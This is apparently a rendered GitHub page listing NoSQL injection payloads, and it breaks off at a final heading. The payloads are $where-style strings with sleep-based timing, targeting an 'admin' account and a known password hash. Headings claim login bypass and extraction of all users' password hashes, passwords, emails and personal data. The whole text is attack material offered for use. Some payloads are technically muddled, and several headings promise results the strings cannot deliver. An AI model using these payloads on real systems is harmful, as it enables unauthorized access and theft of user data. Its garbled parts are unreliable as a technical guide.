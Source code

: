 ### Basic NoSQL Injection Payloads

#### Find User by Username

```plaintext
' || this.username == 'admin' && sleep(5000) || '1' == '1
```

#### Find User by Username and Password

```plaintext
' || this.username == 'admin' && this.password == 'password' && sleep(5000) || '1' == '1
```

#### Find User by Username and Password Hash

```plaintext
' || this.username == 'admin' && this.password == '5f4dcc3b5aa765d61d8327deb882cf99' && sleep(5000) || '1' == '1
```

### Advanced NoSQL Injection Payloads

#### Bypass Login

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1
```

#### Bypass Login and Get All Users

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin
```

#### Bypass Login and Get All Users' Password Hashes

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.password != null
```

#### Bypass Login and Get All Users' Passwords

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.password != null && this.password != '5f4dcc3b5aa765d61d8327deb882cf99'
```

#### Bypass Login and Get All Users' Emails

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.email != null
```

#### Bypass Login and Get All Users' Personal Information
